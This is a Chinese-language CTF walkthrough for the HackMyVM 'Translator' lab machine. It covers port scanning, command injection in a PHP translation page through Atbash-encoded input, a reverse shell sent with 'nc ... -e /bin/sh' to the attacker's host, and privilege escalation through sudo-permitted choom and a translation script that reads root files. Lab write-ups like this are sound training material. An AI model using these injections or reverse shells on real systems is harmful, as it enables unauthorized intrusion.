 # Translator

2025.02.05 https://hackmyvm.eu/machines/machine.php?vm=Translator

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 web 首页显示的是一个翻译页面，输入一个 5 时，会显示 2 个 5，这里可能会出现漏洞点。

先 gobuster 扫描看看有没有其他隐藏目录，没有发现：

```
gobuster -t 32 dir -u http://192.168.5.40/ -k -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -e -x txt,php,html,jpg
```

仔细研究下这个翻译功能吧，经过测试，输入数字 0-9 不会变化，输入字符 a 会输出 z 字符，字母是按倒序进行输出的，这里可能使用了 linux 中的处理命令 tr，可能存在命令注入，进行测试：

```
GET /translate.php?hmv=oh;oh HTTP/1.1
```

这里发现实现了 ls 的输出功能，可以实现命令注入，直接进行反弹（nc 192.168.5.3 8888 -e /bin/sh）：

```
GET /translate.php?hmv=oh;mx+192.168.5.3+8888+-v+/yrm/hs HTTP/1.1
```

得到了反弹的 shell，在/var/www/html 目录下，发现一个文件 hvxivg 进行 translate 后得到了 secret:

```
www-data@translator:~/html$ cat hvxivg
Mb kzhhdliw rh zbfie3w4

My password is ayurv3d4
```

```
cat translate.php
<?php
$test = $_GET['hmv'];
$test = escapeshellcmd($test);
echo ("Translated to:");
echo "<br>";
$ultima_linea = system('echo '.$test.'| tr abcdefghijklmnopqrstuvwxyz zyxwvutsrqponmlkjihgfedcba');
$ulti = system('echo '.$ultima_linea.'| tr "php" "wtf"');
?>
```

/home 目录中发现 2 个用户 india 和 ocean 尝试用上面的密码切换用户，最终切换到 ocean 用户，得到了 user flag：

```
ocean@translator:~$ cat user.txt
a6765hftgnhvugy473f
```

sudo -l 发现: (india) NOPASSWD: /usr/bin/choom , 可以用这个切换到 india 用户: sudo -u india choom -n 0 /bin/bash

切换到 india 用户后，sudo -l 发现: (root) NOPASSWD: /usr/local/bin/trans

/usr/local/bin/trans 是一个脚本文件，india 用户没有 w 权限，不能修改。先执行看看它的帮助，发现可以读取文件：

```
sudo -u root /usr/local/bin/trans --help

I/O options:
    -i FILENAME, -input FILENAME
    Specify the input file.
```

这里这个脚本需要调用 google 的翻译接口，需要借助魔法，使用 kali 上的 proxy，所以直接写了命令：

```
sudo -u root /usr/local/bin/trans -i /root/root.txt -x http://192.168.5.3:7890 --no-autocorrect
```

最终得到 root flag:

```
h87M5364V2343ubvgfy
```
